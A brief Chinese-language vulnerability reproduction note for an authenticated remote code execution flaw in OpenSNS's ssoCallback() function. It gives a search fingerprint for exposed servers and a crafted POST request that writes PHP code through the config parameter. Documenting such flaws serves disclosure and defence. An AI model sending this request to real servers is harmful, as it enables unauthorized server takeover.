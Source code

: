 # OpenSNS AuthorizeController.class.php 后台远程命令执行漏洞

## 漏洞描述

OpenSNS AuthorizeController.class.php文件 ssoCallback() 函数存在命令执行漏洞，在登录的情况下可以获取服务器权限

## 漏洞影响

<a-checkbox checked>OpenSNS</a-checkbox></br>

## 网络测绘

<a-checkbox checked>icon_hash="1167011145"</a-checkbox></br>

## 漏洞复现

登录页面如下

![img](../../../.vuepress/public/img/1634371874190-3653480e-380a-4cdc-81fc-7d560bc7d0dc-20220313235551772.png)

存在漏洞的文件为 **Application/Admin/Controller/AuthorizeController.class.php**

![img](../../../.vuepress/public/img/1634375559893-600bdee5-03fe-4da2-8762-c41ded4f3797.png)

其中 config参数可控，构造请求就可以通过 file_put_contents 写入执行任意命令

![img](../../../.vuepress/public/img/1634376077943-1f4ae612-7dc6-44a8-963d-0235ce16d1fd.png)

构造请求包

```php
POST /admin.php?s=/Authorize/ssoCallback\

config[SSO_CONFIG]=phpinfo();
```

![img](../../../.vuepress/public/img/1634376114084-4e3cf1c1-1a1b-4169-bf65-322e2002a947.png)

